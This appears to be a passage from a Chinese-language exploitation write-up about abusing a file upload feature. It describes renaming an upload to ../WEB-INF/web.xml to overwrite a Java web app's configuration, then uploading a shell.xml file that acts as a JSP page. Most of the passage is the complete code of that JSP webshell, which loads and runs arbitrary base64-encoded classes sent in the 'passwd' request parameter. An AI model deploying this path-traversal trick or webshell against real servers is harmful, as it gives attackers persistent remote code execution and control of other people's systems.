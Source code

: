 直接上传，然后修改文件名为 ../WEB-INF/web.xml，这样就可以恶意修改掉 web.xml。

![](../../../../images/83543c67208bb82ddc9c3062e3236f4f.png)

然后再传一个 shell.xml 文件，内容是 jsp 马的内容，上传后访问他就相当于访问了 shell.jsp。

```java
<%!
class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}

public byte[] base64Decode(String str) throws Exception {
    try {
        Class clazz = Class.forName("sun.misc.BASE64Decoder");
        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
    } catch (Exception e) {
        Class clazz = Class.forName("java.util.Base64");
        Object decoder = clazz.getMethod("getDecoder").invoke(null);
        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
    }
}
%>
<%
String cls = request.getParameter("passwd");
if (cls != null) {
    new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
}
    %>



```
